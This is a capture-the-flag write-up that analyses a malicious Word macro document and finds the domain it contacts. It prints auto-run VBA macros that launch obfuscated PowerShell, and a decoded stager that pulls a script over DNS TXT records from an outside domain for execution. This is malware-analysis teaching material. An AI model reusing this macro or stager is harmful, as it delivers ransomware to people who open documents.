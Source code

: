 
## Identify the Domain
> Using the Word docm file, identify the domain name that the malware communicates with.

1. Opened the document with LibreOffice, macros off. Used `Tools > Macros > Edit macros` to edit them, found these:

```VBScript
Rem Attribute VBA_ModuleType=VBAModule
Option VBASupport 1
Private Sub Document_Open()
Dim cmd As String
cmd = "powershell.exe -NoE -Nop -NonI -ExecutionPolicy Bypass -C ""sal a New-Object; iex(a IO.StreamReader((a IO.Compression.DeflateStream([IO.MemoryStream][Convert]::FromBase64String('lVHRSsMwFP2VSwksYUtoWkxxY4iyir4oaB+EMUYoqQ1syUjToXT7d2/1Zb4pF5JDzuGce2+a3tXRegcP2S0lmsFA/AKIBt4ddjbChArBJnCCGxiAbOEMiBsfSl23MKzrVocNXdfeHU2Im/k8euuiVJRsZ1Ixdr5UEw9LwGOKRucFBBP74PABMWmQSopCSVViSZWre6w7da2uslKt8C6zskiLPJcJyttRjgC9zehNiQXrIBXispnKP7qYZ5S+mM7vjoavXPek9wb4qwmoARN8a2KjXS9qvwf+TSakEb+JBHj1eTBQvVVMdDFY997NQKaMSzZurIXpEv4bYsWfcnA51nxQQvGDxrlP8NxH/kMy9gXREohG'),[IO.Compression.CompressionMode]::Decompress)),[Text.Encoding]::ASCII)).ReadToEnd()"" "
Shell cmd
End Sub

Rem Attribute VBA_ModuleType=VBAModule
Option VBASupport 1
Sub AutoOpen()
Dim cmd As String
cmd = "powershell.exe -NoE -Nop -NonI -ExecutionPolicy Bypass -C ""sal a New-Object; iex(a IO.StreamReader((a IO.Compression.DeflateStream([IO.MemoryStream][Convert]::FromBase64String('lVHRSsMwFP2VSwksYUtoWkxxY4iyir4oaB+EMUYoqQ1syUjToXT7d2/1Zb4pF5JDzuGce2+a3tXRegcP2S0lmsFA/AKIBt4ddjbChArBJnCCGxiAbOEMiBsfSl23MKzrVocNXdfeHU2Im/k8euuiVJRsZ1Ixdr5UEw9LwGOKRucFBBP74PABMWmQSopCSVViSZWre6w7da2uslKt8C6zskiLPJcJyttRjgC9zehNiQXrIBXispnKP7qYZ5S+mM7vjoavXPek9wb4qwmoARN8a2KjXS9qvwf+TSakEb+JBHj1eTBQvVVMdDFY997NQKaMSzZurIXpEv4bYsWfcnA51nxQQvGDxrlP8NxH/kMy9gXREohG'),[IO.Compression.CompressionMode]::Decompress)),[Text.Encoding]::ASCII)).ReadToEnd()"" "
Shell cmd
End Sub

```

Deobfuscated, it would look like:

```
cmd = "powershell.exe -NoE -Nop -NonI -ExecutionPolicy Bypass -C ""sal a New-Object;

payload = 'lVHRSsMwFP2VSwksYUtoWkxxY4iyir4oaB+EMUYoqQ1syUjToXT7d2/1Zb4pF5JDzuGce2+a3tXRegcP2S0lmsFA/AKIBt4ddjbChArBJnCCGxiAbOEMiBsfSl23MKzrVocNXdfeHU2Im/k8euuiVJRsZ1Ixdr5UEw9LwGOKRucFBBP74PABMWmQSopCSVViSZWre6w7da2uslKt8C6zskiLPJcJyttRjgC9zehNiQXrIBXispnKP7qYZ5S+mM7vjoavXPek9wb4qwmoARN8a2KjXS9qvwf+TSakEb+JBHj1eTBQvVVMdDFY997NQKaMSzZurIXpEv4bYsWfcnA51nxQQvGDxrlP8NxH/kMy9gXREohG'

## iex(
  a IO.StreamReader(
    (a IO.Compression.DeflateStream(
      [IO.MemoryStream][Convert]::FromBase64String(payload),
      [IO.Compression.CompressionMode]::Decompress
    )),
    [Text.Encoding]::ASCII)
)
## .ReadToEnd()"" "

```

Used a (small PHP script)[../scripts/decode_macro_payload.php] to decode and deflate, and obtained the following code (rewrote to be easier to read):
```VBScript
function H2A($a) {$o; $a -split '(..)' | ? { $_ }  | forEach {[char]([convert]::toint16($_,16))} | forEach {$o = $o + $_}; return $o};
$f = "77616E6E61636F6F6B69652E6D696E2E707331";
$h = "";

upperLimit = ([convert]::ToInt32((Resolve-DnsName -Server erohetfanu.com -Name "$f.erohetfanu.com" -Type TXT).strings, 10)-1)
foreach ($i in 0..upperLimit)  {
  $h += (Resolve-DnsName -Server erohetfanu.com -Name "$i.$f.erohetfanu.com" -Type TXT).strings
};

decoded = $(H2A $h | Out-string)

# iex(decoded)


```

The answer to the challenge is: `erohetfanu.com`

Bonus track, what does `77616E6E61636F6F6B69652E6D696E2E707331` mean?: `wannacookie.min.ps1` :)
